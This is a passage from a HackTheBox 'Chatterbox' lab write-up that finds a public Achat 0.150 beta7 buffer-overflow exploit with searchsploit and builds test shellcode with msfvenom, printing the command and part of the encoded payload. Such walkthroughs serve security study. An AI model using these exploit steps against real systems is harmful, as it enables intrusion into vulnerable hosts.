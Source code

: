 **Hmm... Let's search for public exploits for that application:**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:07:19(HKT)]
└> searchsploit achat
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow                           | windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit)              | windows/remote/36056.rb
[...]
--------------------------------------------------------------------- ---------------------------------
```

As you can see, Achat 0.150 beta7 is vulnerable to Remote Buffer Overflow.

## Initial Foothold

**We can mirror the Python exploit script via `-m` flag in `searchsploit`:**
```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:07:19(HKT)]
└> searchsploit -m 36025
  Exploit: Achat 0.150 beta7 - Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/36025
     Path: /usr/share/exploitdb/exploits/windows/remote/36025.py
    Codes: CVE-2015-1578, CVE-2015-1577, OSVDB-118206, OSVDB-118104
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (637)
Copied to: /home/siunam/ctf/htb/Machines/Chatterbox/36025.py
```

By looking through the exploit script, we need to modify the following stuff:

- Generate our own shellcode via `msfvenom`:

```shell
┌[siunam♥earth]-(~/ctf/htb/Machines/Chatterbox)-[2023.05.17|21:12:23(HKT)]
└> msfvenom -a x86 --platform Windows -p windows/exec CMD='ping 10.10.14.26' -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
[...]
buf =  b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41"
[...]
buf += b"\x6f\x44\x4c\x6e\x70\x32\x70\x36\x39\x70\x41\x41"
```

> Note: The `ping` command is to test the target's aChat application is vulnerable to Remote Buffer Overflow or not.
